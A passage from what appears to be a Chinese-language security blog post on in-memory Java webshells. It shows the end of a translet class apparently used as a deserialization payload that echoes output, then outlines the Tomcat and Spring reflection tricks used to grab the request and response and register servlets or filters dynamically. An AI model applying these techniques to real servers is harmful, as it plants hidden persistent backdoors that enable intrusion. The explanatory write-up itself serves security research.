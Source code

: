 ```
                                request.getResponse().doWrite(bc);
                            }catch (Exception e){
                                e.printStackTrace();
                            }
                        }
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            }

        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```



生成反序列化数据执行输出

![1](C:\Users\halo.liu\Documents\GitHub\ns1ookup.github.io\_posts\webshell\3.png)



### 实现

实现内存Webshell需要以下两个步骤：

- 获取Request和Response
- 动态注册Servlet/Filter/Listener

我们以spring框架为目标，获取request和response。以tomcat为目标，包含很多坑点，例如：

1. 反射修改ApplicationDispatcher.WRAP_SAME_OBJECT，让代码逻辑走到if条件里面
2. 初始化lastServicedRequest和lastServicedResponse两个变量，默认为null
3. 从lastServicedResponse中获取当前请求response，并且回显内容



**使用RequestContextHolder.getRequestAttributes()的注意事项**

注意事项：
